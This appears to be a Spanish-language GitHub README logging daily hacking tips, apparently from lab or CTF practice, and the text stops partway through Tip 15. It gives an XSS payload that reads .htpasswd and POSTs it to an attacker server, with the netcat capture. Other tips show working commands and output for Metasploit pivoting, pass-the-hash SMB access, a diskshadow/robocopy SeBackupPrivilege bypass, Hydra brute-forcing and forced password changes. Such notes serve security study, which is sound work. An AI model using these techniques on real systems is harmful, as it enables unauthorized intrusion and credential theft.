

# 365 Tips De Hacking
En este repo quiero contribuir una vez al día, diariamente publicare una técnica o tip que aprenda, la meta es estudiar diario y aprender algo nuevo cada día, esto lo hago como un registro y por si en algún momento vuelvo a utilizar algo de aqui :p 
## Índice
- [Tip 1:  Lectura de archivos desde un XSS](#tip-1-lectura-de-archivos-desde-un-xss)
- [Tip 2:  Siempre escanea los puertos UDP](#tip-2-siempre-escanea-los-puertos-udp)
- [Tip 3:  Puertos internos abiertos](#tip-3-puertos-internos-abiertos)
- [Tip 4:  Comando SUDO](#tip-4-comando-sudo)
- [Tip 5:  Información sensible en /.git publicos](#tip-5-información-sensible-en-git-publicos)
- [Tip 6:  Pivoting con metasploit](#tip-6-pivoting-con-metasploit)
- [Tip 7: Uso de smbclient con el hash NTLM](#tip-7-Uso-de-smbclient-con-el-hash-ntlm)
- [Tip 8:  Acceso a cualquier archivo en Windows con SeBackupPrivilege](#tip-8-Acceso-a-cualquier-archivo-en-Windows-con-SeBackupPrivilege)
- [Tip 9:  Port Forwarding con SSH](#tip-9-port-forwarding-con-ssh)
- [Tip 10: Fuerza bruta con hydra al protocolo HTTP](#tip-10-fuerza-bruta-con-hydra-al-protocolo-http)
- [Tip 11: Busqueda de informacion con grep](#tip-11-busqueda-de-información-con-grep)
- [Tip 12: Modulo para MSSQL en netexec](#tip-12-modulo-para-mssql-en-netexec)
- [Tip 13: Cambio de contraseña de usuarios con net](#tip-13-cambio-de-contraseña-de-usuarios-con-net)
- [Tip 14: Rutas sensibles de frameworks para aprovechar LFI](#tip-14-rutas-sensibles-de-frameworks-para-aprovechar-lfi)
- [Tip 15: One liner detección de servicios web](#tip-15-one-liner-detección-de-servicios-web)
- [Tip 16: Archivos de configuración de bases de datos](#tip-16-archivos-de-configuración-de-bases-de-datos)
- [Tip 17: Generar una shell interactiva en Linux](#tip-17-generar-una-shell-interactiva-en-linux)
- [Tip 18: Generar una reverse shell para Windows](#tip-18-generar-una-reverse-shell-para-windows)
- [Tip 19: Transferencia de archivos en Windows](#tip-19-transferencia-de-archivos-en-windows)
- [Tip 20: Transferencia de archivos en Linux](#tip-20-transferencia-de-archivos-en-linux)
- [Tip 21: De inyección SQL a RCE](#tip-21-de-inyección-sql-a-rce)
## Tip #1: Lectura de archivos desde un XSS
Al descubrir un XSS se puede realizar la lectura de archivos locales mediante peticiones a un servidor web propio, la idea es enviar el XSS payload a un usuario que si pueda acceder a ciertos archivos del servidor, por ejemplo el archivo .htpasswd, a continuación muestro el payload:
```javascript
<script>
fetch("http://ejemplo.com/.htpasswd").then(response => response.text())
  .then(data => fetch("http://<servidor.del.atacante>", {
      method: "POST",
      body: data
  }));
</script>
```
Ahora nosotros nos ponemos a la escucha en ```netcat``` y al enviar el payload al administrador recibiremos el archivo:
```netcat
┌──(jorge㉿pentest)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.27] from (UNKNOWN) [{redacted}] 48096
POST / HTTP/1.1
Host: 10.10.14.27:1234
Connection: keep-alive
Content-Length: 57
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: {redacted}
Referer: {redacted}
Accept-Encoding: gzip, deflate

<pre>{redacted}
</pre>
```
## Tip #2: Siempre escanea los puertos UDP
Regularmente en el equipo de Red Team al realizar una auditoria nos enfocamos en los puertos TCP, sin embargo, no viene mal revisar que puertos UDP se encuentran abiertos, algunas veces se puede descubrir información de usuarios y tecnologias que utiliza la organización, por ejemplo en el siguiente escaneo de UDP se descubrio el puerto 161/udp correspondiente a smtp:
```bash
┌──(jorge㉿pentest)-[~]
└─$ /bin/cat PuertosUDP
# Nmap 7.94SVN scan initiated Fri Jan  3 19:46:48 2025 as: /usr/lib/nmap/nmap -p- -sU --min-rate 10000 -n -v -Pn -oN PuertosUDP 10.10.11.48
Warning: 10.10.11.48 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.48
Host is up (0.071s latency).
Not shown: 65459 open|filtered udp ports (no-response), 75 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/share/nmap
# Nmap done at Fri Jan  3 19:48:01 2025 -- 1 IP address (1 host up) scanned in 72.81 seconds
```
Despues se utilizo la herramienta ```smtpwalk``` de donde se logro obtener información de las tecnologias de la organización, por ejemplo el uso de daloradius:
```bash
┌──(jorge㉿pentest)-[~]
└─$ snmpwalk -v2c -c public 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (1394652) 3:52:26.52
iso.3.6.1.2.1.1.5.0 = STRING: "Daloradius server"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A."
```
## Tip #3: Puertos internos abiertos
Despues de lograr acceso a un equipo es conveniente revisar que puertos abuertos estan en uso, esto por que tal vez utilicen softwares que solo son visibles desde el interior a la red, para hacer esto utizamos la herramienta ```netstat```:
```bash
alberto@local:~$ netstat -tln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 ::1:8080                :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
alberto@local:~$ curl -I 127.0.0.1:8080
HTTP/1.1 200 OK
Host: 127.0.0.1:8080
Date: Mon, 06 Jan 2025 05:05:05 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.24
Content-type: text/html; charset=UTF-8
```
Como se puede observar en el puerto 8080 existe un servidor web no visible desde el exterior, es probable encontrar distitas vulnerabilidades ahi.

## Tip #4: Comando SUDO
El comando sudo nos permite ejecutar programas como super user, es decir ```root```, esto se puede utilizar para escalar privilegios en el sistema, una buena practica despues de obtener acceso al sistema es revisar que programas podemos ejecutar como root sin necesidad de proporcionar una contraseña, en el ejemplo a continuación el usuario puede ejecutar todos los comandos como super usuario pero tiene que introducir su contraseña antes:
```bash
┌──(jorge㉿pentest)-[~]
└─$ sudo -l
Matching Defaults entries for jorge on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jorge may run the following commands on pentest:
    (ALL : ALL) ALL
```
A diferencia del usuario anterior el ejemplo a continuación puede ejecutar un programa como superusuario sin necesidad de proporcionar contraseña, despues de ver la ruta y el programa que es podriamos intentar modificarlo para lograr escalar privilegios:
```bash
alberto@local:~$ sudo -l
Matching Defaults entries for alberto on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User alberto may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```
## Tip #5: Información sensible en /.git publicos
Al realizar fuzzing a una web a veces se encuentra el directorio ```.git``` publico, aqui se puede encontrar información sensible como contraseñas, tokens y codigo fuente, existen dos alternativas para analizar este directorio:
### Herramientas git
Primero descargaremos el directorio:
```bash
wget -r http://www.target.com/.git/
```
Despues dentro del directorio descargado utilizaremos ```diff```:
```bash
git diff
```
Despues de este comando podremos obsevar todas las modificaciones que se han hecho a los archivos, esto puede ser util por si en algun momento hubo contraseñas o tokens en el codigo y fueron eliminadas se pueden recuperar desde ahi.

### Generar el codigo fuente original
Existe una herramienta capaz de extraer los archivos del proyecto y luego utilizando ```zlib``` escribe el codigo fuente segun la estructura orignal, esto es muy util ya que se pueden encontrar muchos archivos con contraseñas:
```bash
python3 GitHack.py http://www.target.com/.git/
```
Esta herramienta esta disponible aqui -> https://github.com/lijiejie/GitHack

## Tip #6: Pivoting con metasploit
Se le conoce como pivoting a la tecnica en la cual utilizas una maquina intermedia que tiene conectividad en dos segmentos de red para hacer llegar ataques desde tu maquina original, el esquema lo explica mejor:



Lo primero que debemos observar es que la IP de nuestra maquina de atacante es la ```10.10.48.3```:
```bash
root@pentest:~# ip address
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
97188: eth1@if97189: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:0a:30:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.10.48.3/24 brd 10.10.48.255 scope global eth1
       valid_lft forever preferred_lft forever
```
Para realizar el pivoteo es importante primero obtener una sesión de meterpreter en la maquina pivote, una vez hecho esto, veremos su configuaración de IPs:
```bash
meterpreter > shell
Process 2972 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::174:4cdc:e7b7:58d4%13
   IPv4 Address. . . . . . . . . . . : 10.3.17.190
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.3.16.1
```
Como podemos observar la IP es ```10.3.17.190``` con una mascara de subnet ```255.255.240.0``` el gateway ```10.3.16.1```, lo que nos indica que se encuentra en un segmento diferente, si realizamos un ping hasta la IP ```10.3.29.55``` observamos su respuesta:
```bash
C:\Windows\system32>ping -n 1 10.3.29.55
ping -n 1 10.3.29.55

Pinging 10.3.29.55 with 32 bytes of data:
Reply from 10.3.29.55: bytes=32 time<1ms TTL=128

Ping statistics for 10.3.29.55:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```
Si intentamos un ping desde nuestra maquina de atacante no obtendremos respuesta:
```bash
root@pentest:~# ping -c 1 10.3.29.55
PING 10.3.29.55 (10.3.29.55) 56(84) bytes of data.

--- 10.3.29.55 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```
Esto indica que tenemos que utilizar la maquina que tiene conexion a la red ```10.10.48.0/24``` y a la red ```10.3.0.0/20```, que en este caso tambien es la maquina en la que tenemos nuestra sesion de meterpreter, para realizar el pivoting debemos agregar las rutas con el siguiente comando:
```bash
meterpreter > run autoroute -s 10.3.29.55/20

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.3.29.55/255.255.240.0...
[+] Added route to 10.3.29.55/255.255.240.0 via 10.3.17.190
[*] Use the -p option to list all active routes
```
Ahora veremos la configuracion del archivo de proxychains en nuestra maquina de atacante, vemos que el protocolo es ```socks4``` y el puerto es el ```9050```:
```bash
root@pentest:~# tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```
Ahora en la maquina con la sesión de meterpreter abierta utilizaremos el auxiliar ```auxiliary/server/socks_proxy``` y modificaremos las opciones ```SRVPORT``` y ```VERSION```:
```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
VERSION => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy

```
Ahora si podemos utilizar nuestra maquina para explotar la maquina no visible a traves de la maquina pivote, aqui se realiza el escaneo de puertos con ```nmap```:
```bash
root@pentest:~# proxychains nmap -p445 -n -v -Pn -sS 10.3.29.55
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2025-01-12 20:45 IST
Initiating SYN Stealth Scan at 20:45
Scanning 10.3.29.55 [1 port]
Completed SYN Stealth Scan at 20:45, 2.02s elapsed (1 total ports)
Nmap scan report for 10.3.29.55
Host is up.

PORT    STATE    SERVICE
445/tcp open microsoft-ds

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.09 seconds
```
Ahora todas las herramientas que queramos  utilizar solo haremos uso de proxychains para enviarlas a la maquina de la red interna.
## Tip #7: Uso de smbclient con el hash NTLM
En ocaciones logramos obtener un hash NTLM que no logro ser crackeado por fuerza bruta, se puede acceder al servidor ```smb``` unicamente con el hash, podemos observar que el recurso ```Recurso``` es accesible para el usuario ```victima```:
```bash
root@pentest:~# crackmapexec smb 192.168.100.11 -u victima -H 5835048ce94ad0564e29a924a03510ef --shares
SMB         192.168.100.11     445    PENTEST    [*] Windows Server 2012 R2 Standard 9600 x64 (name:PENTEST) (domain:pentest.local) (signing:False) (SMBv1:True)
SMB         192.168.100.11     445    PENTEST    [+] pentest\victima 5835048ce94ad0564e29a924a03510ef                                                                                                                        
SMB         192.168.100.11     445    PENTEST    [+] Enumerated shares
SMB         192.168.100.11     445    PENTEST    Share           Permissions     Remark
SMB         192.168.100.11     445    PENTEST    -----           -----------     ------
SMB         192.168.100.11     445    PENTEST    ADMIN$                          Remote Admin
SMB         192.168.100.11     445    PENTEST    C$                              Default share
SMB         192.168.100.11     445    PENTEST    IPC$            READ            Remote IPC
SMB         192.168.100.11     445    PENTEST    print$          READ,WRITE      Printer Drivers
SMB         192.168.100.11     445    PENTEST    Recurso         READ,WRITE      
```
Para inspeccionar mejor el recurso podemos acceder con ```smbclient``` sin necesidad de proporcionar la contraseña, para eso utilizaremos el parametro ```--pw-nt-hash``` que indicara que utilizaremos el hash NTLM en lugar de la pass:
```bash
root@pentest:~# smbclient //192.168.100.11/Recurso -U victima%5835048ce94ad0564e29a924a03510ef --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 12 20:55:12 2025
  ..                                  D        0  Sun Jan 12 20:55:12 2025
  SECRETOS                            D     4597  Thu Aug 22 21:09:40 2024
```
## Tip #8: Acceso a cualquier archivo en Windows con SeBackupPrivilege
En ocaciones se dipone de usuarios con accesso a la maquina pero aun asi no es posible observar archivos debido a restricciones de permisos o acls como se puede observar a continuación:
```bash
PS C:\Users\Administrator> whoami                                                                                                                    
nt authority\pentest                                                                                                                                       
PS C:\Users\Administrator> type secreto.txt                                                                                                            
type : Access to the path 'C:\Users\Administrator\secreto.txt' is denied.                                                                              
At line:1 char:1                                                                                                                                          
+ type secreto.txt                                                                                                                                          
+ ~~~~~~~~~~~~~~                                                                                                                                          
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\secreto.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand 
```
Ahora si listamos los privilegios de nuestro usuario se puede observar que existe el privilegio ```SeBackupPrivilege```:
```bash
PS C:\Users\Administrator> whoami /priv                                                                                                              
                                                                                                                                                          
PRIVILEGES INFORMATION                                                                                                                                    
----------------------                                                                                                                                    
                                                                                                                                                          
Privilege Name                  Description                                   State                                                                       
=============================== ============================================= =======                                                                     
SeSecurityPrivilege             Manage auditing and security log              Enabled                                                                     
SeBackupPrivilege               Back up files and directories                 Enabled                                                                     
SeRestorePrivilege              Restore files and directories                 Enabled                                                                     
```
Aprovechando ese privilegio, podemos crear un volumen de sistema nuevo y copiar ese archivo dentro de nuestro volumen, al hacer esto los archivos copiasdos pierden sus restrcciones. Para hacerlo primero debemos crear un archivo ```.dsh``` con el siguiente contenido y despues se transforma a formato DOS con ```unix2dos```:
```bash
┌──(root㉿pentest)-[~/Desktop]
└─# cat exploit.dsh 
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:

┌──(root㉿pentest)-[~/Desktop]
└─# unix2dos exploit.dsh 
unix2dos: converting file exploit.dsh to DOS format...
```
Ahora enviamos nuestro archivo a la maquina victima y lo ejecutamos de la siguiente forma con ```diskshadow```:
```powershell
PS C:\Temp> diskshadow /s exploit.dsh                                                                                                                     
Microsoft DiskShadow version 1.0                                                                                                                          
Copyright (C) 2013 Microsoft Corporation                                                                                                                  
On computer:  WIN-GQ7PTVEC6HL,  1/13/2025 6:51:44 PM                                                                                                      
                                                                                                                                                          
-> set context persistent nowriters                                                                                                                       
-> add volume c: alias pwn                                                                                                                                
-> create                                                                                                                                                 
Alias pwn for shadow ID {869aac15-9f50-40b9-b188-395c6d5cb11b} set as environment variable.                                                               
Alias VSS_SHADOW_SET for shadow set ID {5da72baf-1f1f-4b4a-8191-ae36728e8e7b} set as environment variable.                                                
                                                                                                                                                          
Querying all shadow copies with the shadow copy set ID {5da72baf-1f1f-4b4a-8191-ae36728e8e7b}                                                             
                                                                                                                                                          
        * Shadow copy ID = {869aac15-9f50-40b9-b188-395c6d5cb11b}               %pwn%                                                                     
                - Shadow copy set: {5da72baf-1f1f-4b4a-8191-ae36728e8e7b}       %VSS_SHADOW_SET%                                                          
                - Original count of shadow copies = 1                                                                                                     
                - Original volume name: \\?\Volume{76a20809-ce4e-11ef-837b-806e6f6e6963}\ [C:\]                                                           
                - Creation time: 1/13/2025 6:51:44 PM                                                                                                     
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1                                                                
                - Originating machine: WIN-GQ7PTVEC6HL                                                                                                    
                - Service machine: WIN-GQ7PTVEC6HL                                                                                                        
                - Not exposed                                                                                                                             
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}                                                                                     
                - Attributes:  No_Auto_Release Persistent No_Writers Differential                                                                         
                                                                                                                                                          
Number of shadow copies listed: 1                                                                                                                         
-> expose %pwn% z:                                                                                                                                        
-> %pwn% = {869aac15-9f50-40b9-b188-395c6d5cb11b}                                                                                                         
The shadow copy was successfully exposed as z:\. 
```
Ahora procederemos a copiar el archivo que nos interesa a nuestro volumen deseado con ```robocopy```, en donde colocaremos la ruta original del archivo despues de ```z:```, seguido de un punto para copiarlo en la carpeta actual y seguido del nombre del archivo:
```powershell
PS C:\Temp> robocopy /b z:\Users\Administrator . secreto.txt                                                                                           
                                                                                                                                                          
-------------------------------------------------------------------------------                                                                           
   ROBOCOPY     ::     Robust File Copy for Windows                                                                                                       
-------------------------------------------------------------------------------                                                                           
                                                                                                                                                          
  Started : Monday, January 13, 2025 6:57:44 PM                                                                                                           
   Source : z:\Users\Administrator\                                                                                                                 
     Dest : C:\Temp\                                                                                                                                      
                                                                                                                                                          
    Files : secreto.txt                                                                                                                                     
                                                                                                                                                          
  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30                                                                                                       
                                                                                                                                                          
------------------------------------------------------------------------------                                                                            
                                                                                                                                                          
                           1    z:\Users\Administrator\                                                                                              
100%        New File                  34        secreto.txt                                                                                                 
                                                                                                                                                          
------------------------------------------------------------------------------                                                                            
                                                                                                                                                          
               Total    Copied   Skipped  Mismatch    FAILED    Extras                                                                                    
    Dirs :         1         0         0         0         0         0                                                                                    
   Files :         1         1         0         0         0         0                                                                                    
   Bytes :        34        34         0         0         0         0                                                                                    
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00
```
Despues de realizar esto al listar los archivos podemos observar el objetivo y su contenido:
```powershell
PS C:\Temp> dir                                                                                        
                                                                                                                                                          
    Directory: C:\Temp                                                                                                                                    
                                                                                                                                                          
Mode                LastWriteTime     Length Name                                                                                                         
----                -------------     ------ ----                                                                                                         
-a---         1/13/2025   6:57 PM        628 2025-01-13_18-57-08_WIN-GQ7PTVEC6HL.cab                                                                      
-a---         1/13/2025   6:51 PM         84 exploit.dsh                                                                                                  
-a---         1/13/2025   6:42 PM         34 secreto.txt                                                                                                    
                                                                                                                                                          
PS C:\Temp> type .\secreto.txt                                                                                                                              
NO DEBERIAS VER ESTO SI NO TIENES LOS PERMISOS ADECUADOS, SE INFORMARA AL ADMINISTRADOR CUALQUIER ANOMALIA
```
## Tip #9: Port Forwarding con SSH
En ocaciones logramos obtener algunas credenciales y conectarnos a una maquina remota por medio de SSH, cuando esto ocurre a veces hay servicios locales que son vulnerables, para poder explotarlos con exito debemos hacer un tunel desde el puerto local de la maquina hacia la de nosotros, primero veamos que en la maquina victima hay un servidor web en el puerto ```8080``` que no es visible desde fuera:
### Maquina atacante
Desde nuestra maquina solo observamos abiertos el puerto ```22``` y ```5000```:
```bash
Nmap scan report for 10.10.22.49
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Read data files from: /usr/share/nmap
```
Ademas si realizamos un escaneo de nuestra maquina en el puerto ```1234``` lo encontraremos cerrado:
```bash
┌──(jorge㉿pentest)-[~]
└─$ sudo nmap -p1234 -sS -n -v -Pn localhost
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 15:30 CST
Initiating SYN Stealth Scan at 15:30
Scanning localhost (127.0.0.1) [1 port]
Completed SYN Stealth Scan at 15:30, 0.03s elapsed (1 total ports)
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00012s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE  SERVICE
1234/tcp closed hotline

Read data files from: /usr/share/nmap
```
### Maquina victima
Sin embargo, una vez dentro de la maquina mediante SSH y usando el **Tip #3** de este mismo repo, podemos obsevar los puertos internos:
```bash
roger@test:~$ netstat -tln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN   
```
### Port forwarding
Es por ello que iniciaremos un port forwarding desde la maquina en el puerto ```8080``` hacia la de nosotros en el puerto ```1234```, para hacer esto debemos especificarlo con el parametro ```-L``` de SSH:
```bash
┌──(jorge㉿pentest)-[~]
└─$ ssh roger@10.10.22.49 -L 1234:127.0.0.1:8080
roger@10.10.22.49's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)
```
Ahora si escaneamos nuestro puerto ```1234``` observamos que el puerto se encuentra abierto y tambien que se trata de un servicio http:
```bash
┌──(jorge㉿pentest)-[~]
└─$ sudo nmap -p1234 -sV -n -v -Pn localhost

Nmap scan report for localhost (127.0.0.1)
Host is up (0.000072s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  http    aiohttp 3.9.1 (Python 3.9)

Read data files from: /usr/share/nmap
```
Ahora cuando queramos iniciar un ataque al puerto ```8080``` de la maquina remota todos los comandos los debemos enviar a nuestro puerto local ```1234``` y SSH se encargara del resto.

## Tip #10: Fuerza bruta con hydra al protocolo HTTP
## Custom http login
Se puede realizar fuerza bruta en logins personalizados solo obteniendo los parametros a enviar en la petición, esto se realiza mediante burpsuite y posteriormente se especifica a hydra de la siguiente forma ```dominio metodo "/ruta-del-login:parametro1=^USER^&parametro2=^PASS^&Login=Login:'texto si el login es invalido'"```
```bash
┌──(root㉿pentest)-[~]
└─# hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt  -P /root/Desktop/wordlists/100-common-passwords.txt target.com http-post-form \ "/login:username=^USER^&password=^PASS^&Login=Login:Invalid username or password"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-14 04:57:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1700 login tries (l:17/p:100), ~107 tries per task
[DATA] attacking http-post-form://target.com:80/login:username=^USER^&password=^PASS^&Login=Login:Invalid username or password
[80][http-post-form] host: target.com   login: robert   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-14 04:58:05
```
## Tip #11: Busqueda de información con grep
En ocaciones puedes archivos de configuracion por medio de palabras clave entre muchos archivos con ```grep``` de la siguiente forma:
```bash
root@pentest:/app# ls
app.py  instance  static  templates  uploads

root@pentest:/app/# grep -r password
Binary file instance/database.db matches
```
## Tip #12: Modulo para MSSQL en netexec
Si obtenemos credenciales del directorio activo se puede intentar realizar consultas a la base de datos con ```netexec```:
```bash
┌──(jorge㉿pentest)-[~]
└─$ nxc mssql 10.10.X.X -u test -p MSSQLP@ssw0rd! -q "SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE';" --local-auth
MSSQL       10.10.X.X     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:test.local)
MSSQL       10.10.X.X     1433   DC01             [+] DC01\test:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.X.X     1433   DC01             table_name:spt_fallback_db
MSSQL       10.10.X.X     1433   DC01             table_name:spt_fallback_dev
MSSQL       10.10.X.X     1433   DC01             table_name:spt_fallback_usg
MSSQL       10.10.X.X     1433   DC01             table_name:spt_monitor
MSSQL       10.10.X.X     1433   DC01             table_name:MSreplication_options
```
Ahora si nos conectamos a la base de datos podemos observar que son las mismas tablas:
```bash
SQL (test  dbo@master)> SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE';
table_name              
---------------------   
spt_fallback_db         

spt_fallback_dev        

spt_fallback_usg        

spt_monitor             

MSreplication_options
```
## Tip #13: Cambio de contraseña de usuarios con net
Cuando un usuario tenga permisos de ```GenericAll``` o de ```ForceChangePassword``` se puede usar la herramienta de samba ```net``` para cambiar su contraseña:
```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
## Tip #14: Rutas sensibles de frameworks para aprovechar LFI
En esta sección solo tratare de actualizar las rutas con archivos que contienen información sensible en caso de obtener un LFI.
### Ruby on rails
https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html
## Tip #15: One liner detección de servicios web
Cuando estemos dentro de una maquina y veamos muchos puertos locales abiertos según nuestro **Tip #3** se puede detectar que puertos pertenecen a servicios web con un one liner.
### Tip #3 en acción:
```bash
rony@test$ netstat -tln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8503          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3001          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
```
### One liner
Como se puede observar en el comando anterior existen muchisimos puertos, para identificar que puertos pertenecen a servicios web utilizaremos este one liner creado por mi:
```bash
